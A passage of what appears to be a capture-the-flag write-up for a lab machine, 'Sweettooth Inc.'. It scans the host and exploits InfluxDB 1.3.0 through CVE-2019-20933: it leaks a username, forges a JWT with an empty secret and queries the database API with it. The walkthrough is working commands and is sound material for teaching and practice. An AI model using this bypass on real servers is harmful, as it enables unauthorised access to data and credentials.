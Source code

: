 # Sweettooth Inc. - Medium

* Add ```sweettooth.thm``` to ```/etc/hosts``` and start scan - ```nmap -T4 -p- -A -Pn -v sweettooth.thm```:

  * 111/tcp - rpcbind - rpcbind 2-4 (RPC #100000)
  * 2222/tcp - ssh - OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
  * 8086/tcp - http - InfluxDB http admin 1.3.0
  * 50527/tcp - status - 1 (RPC #100024)

* We can start by enumerating [InfluxDB](https://book.hacktricks.xyz/network-services-pentesting/8086-pentesting-influxdb) on port 8086:

  ```sh
  # we need to setup the client to interact with influxDB
  sudo apt install influxdb-client

  which influx

  influx -host sweettooth.thm -port 8086
  # we are able to connect
  # but we get an error
  # unable to parse authentication credentials
  ```

* Searching for exploits associated with InfluxDB 1.3.0, we get an authentication bypass exploit (CVE-2019-20933) - we have an [automated script](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) as well as a [manual approach](https://exploit-notes.hdks.org/exploit/database/influxdb-pentesting/); let's go ahead with the manual one:

  * first, find the username - ```curl http://sweettooth.thm:8086/debug/requests```

  * from the above request, we get the user 'o5yY6yya'

  * now, we can create a JWT in [JWT](https://jwt.io/) using this:

    * Header: ```{"alg": "HS256", "typ": "JWT" }```
    * Payload: ```{ "username": "o5yY6yya",  "exp":21548669066 }```
    * Verify Signature: ```HMACSHA256(base64UrlEncode(header) + "." +base64UrlEncode(payload),<empty-secret>)```
  
  * we can copy the generated JWT and use it to query InfluxDB API:

    ```sh
    INFLUXDB_JWT="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoyMTU0ODY2OTA2Nn0.ELIIW6W0cRiKgj7GOQPit3gItm_AMEwvrDo3UjZoiHY"

    curl http://sweettooth.thm:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'q=SHOW DATABASES' | jq
    # show db
    # this gives us 'creds', 'docker', 'tanks', 'mixer', '_internal'
